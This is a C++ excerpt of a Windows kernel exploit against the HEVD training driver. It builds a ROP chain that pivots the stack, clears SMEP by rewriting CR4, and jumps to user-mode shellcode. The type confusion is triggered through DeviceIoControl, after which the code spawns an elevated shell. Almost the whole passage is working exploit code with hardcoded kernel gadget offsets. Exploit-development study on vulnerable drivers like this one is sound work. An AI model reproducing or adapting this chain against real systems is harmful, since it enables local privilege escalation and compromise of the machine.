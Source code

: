 ```cpp
		getchar();
		return -1;
	}
	printf("\nHANDLE created successfully!\n");

	UINT64 StackPivotGadget = KernelBase + 0x522840;
	volatile UINT64 STACK_PIVOT = 0xE8000000;
	UINT64 PopRcx = KernelBase + 0x14f34b;
	UINT64 RcxValue = 0x506F8;
	UINT64 ModCr4 = KernelBase + 0x7274e;

	UINT64 StackAddr = STACK_PIVOT - 0x1000;

	LPVOID KernelStack = VirtualAlloc((LPVOID)StackAddr, 0x10000, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	if (KernelStack == 0) {
		printf("\nERROR ALLOCATING THE BUFFER -> %d\n", GetLastError());
		getchar();
		return -1;
	}
	if (!VirtualLock(KernelStack, 0x10000)) {
		printf("\nERROR LOCKING THE MEMORY RANGE -> %d\n", GetLastError());
		getchar();
		return -1;
	}
	memset(KernelStack, 0x41, 0x1000);

	PVOID pShell = VirtualAlloc(nullptr, 150, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	memcpy(pShell, pShellcode, 150);

	USER_TYPE_CONFUSION_OBJECT UserStruct = { 0 };
	UserStruct.ObjectID = 0x4141414141414141;
	UserStruct.ObjectType = StackPivotGadget;

	memcpy((UINT64*)STACK_PIVOT, &PopRcx, sizeof(UINT64));
	memcpy((UINT64*)STACK_PIVOT + 1, &RcxValue, sizeof(UINT64));
	memcpy((UINT64*)STACK_PIVOT + 2, &ModCr4, sizeof(UINT64));
	memcpy((UINT64*)STACK_PIVOT + 3, &pShell, sizeof(UINT64));

	printf("\n[STACK_PIVOT] --> 0x%p\n", STACK_PIVOT);
	printf("\n[StackPivotGadget] --> 0x%p", StackPivotGadget);
	printf("\n[MyStack] --> 0x%p", KernelStack);
	printf("\n[PopRcx] --> 0x%p", PopRcx);
	printf("\n[RcxValue] --> 0x%p", RcxValue);
	printf("\n[ModCr4] --> 0x%p", ModCr4);
	printf("\n[pShell] --> 0x%p\n", pShell);

	// wetw0rk helps so much with this :)
	for (unsigned int i = 0; i < 4; i++) {
		Sleep(1000);
	}

	ULONG lpBytesReturned = 0;
	if (!DeviceIoControl(hHEVD, 0x222023, &UserStruct, sizeof(USER_TYPE_CONFUSION_OBJECT), nullptr, 0, &lpBytesReturned, nullptr)) {
		printf("\n[Error triggering Type Confusion]\n");
		// getchar();
		// return -1;
	}

	SpawnShell();

	VirtualFree(pShell, 150, MEM_RELEASE);
```